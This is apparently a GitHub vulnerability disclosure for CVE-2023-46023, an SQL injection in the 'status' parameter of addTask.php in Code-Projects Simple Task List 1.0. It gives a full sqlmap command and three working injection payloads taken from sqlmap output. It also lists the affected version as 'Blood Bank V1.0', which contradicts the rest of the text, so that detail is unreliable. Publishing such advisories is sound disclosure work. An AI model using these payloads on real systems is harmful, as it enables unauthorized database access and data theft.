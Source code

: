 # CVE-2023-46023-Simple-Task-List-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/simple-task-list-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/12/Simple_Task_List_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Simple Task List V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'status' parameter in the addTask.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46023
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /addTask.php
+ Parameter Names: status
+ Attack Type: Local
# Description
+ The lack of proper input validation and sanitization on the 'status' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Register and login the system
+ Add a project and a task
+ Then use the sqlmap to exploit
+ `sqlmap -u "http://localhost/Tasklist/addTask.php" --headers "Cookie: PHPSESSID=<php-cookie-value>" --method POST --data "name=test&status=N" -p status --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: status (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=test&status=N'||(SELECT 0x59506356 WHERE 1189=1189 AND 7323=7323)||'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test&status=N'||(SELECT 0x6b786b49 WHERE 7851=7851 AND (SELECT 9569 FROM(SELECT COUNT(*),CONCAT(0x7171787171,(SELECT (ELT(9569=9569,1))),0x716b706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test&status=N'||(SELECT 0x5669775a WHERE 4483=4483 AND (SELECT 3096 FROM (SELECT(SLEEP(5)))iFlC))||'
---
```
+ current database: `project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Simple-Task-List-1.0/assets/113091631/7a836381-fd04-4f03-9c7c-63a23dcda583">
